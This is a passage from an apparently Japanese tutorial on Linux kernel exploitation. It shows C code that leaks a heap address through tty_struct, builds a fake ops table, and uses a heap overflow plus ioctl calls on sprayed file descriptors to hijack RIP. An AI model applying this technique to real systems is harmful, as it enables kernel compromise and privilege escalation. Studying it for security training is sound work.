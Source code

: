 特にオフセット0x38あたりのポインタは、まさにこの`tty_struct`の中を指しています[^2]。このポインタから`tty_struct`のアドレスや、そこから0x400を引けば`g_buf`のアドレスが計算できます。`g_buf`の内容は操作可能なので、ここに関数テーブル`ops`を設置して、Heap Overflowで`ops`を書き換えます。
書き換えられた`tty_struct`に対して適当な操作をすればRIPが制御できますが、どの`tty_struct`か分からないのでsprayしたすべてのFDに操作をしましょう。また、呼び出される関数ポインタの位置が分からないので、適当な関数テーブルを作り、呼び出される関数ポインタの位置をクラッシュメッセージから特定します。
```c
  // g_bufのアドレスリーク
  g_buf = *(unsigned long*)&buf[0x438] - 0x438;
  printf("[+] g_buf = 0x%016lx\n", g_buf);

  // 偽関数テーブルの書き込み
  unsigned long *p = (unsigned long*)&buf;
  for (int i = 0; i < 0x40; i++) {
    *p++ = 0xffffffffdead0000 + (i << 8);
  }
  *(unsigned long*)&buf[0x418] = g_buf;
  write(fd, buf, 0x420);

  // RIPの制御
  for (int i = 0; i < 100; i++) {
    ioctl(spray[i], 0xdeadbeef, 0xcafebabe);
  }
```
次のようにRIPが取れていれば成功です。

<center>
  <img src="img/crash_ioctl.png" alt="tty_structの書き換えでRIPが制御できている" style="width:720px;">
</center>


[^1]: オブジェクトのサイズはカーネルのバージョンによって変わる可能性があるので注意しましょう。
[^2]: これはLinuxが提供する双方向リストのポインタです。mutexなどを利用すると作られるためカーネル中の多くのオブジェクトに存在し、ヒープアドレスリークに役立ちます。
[^3]: その変数を使う関数を逆アセンブルしてアドレスを特定する方法もあります。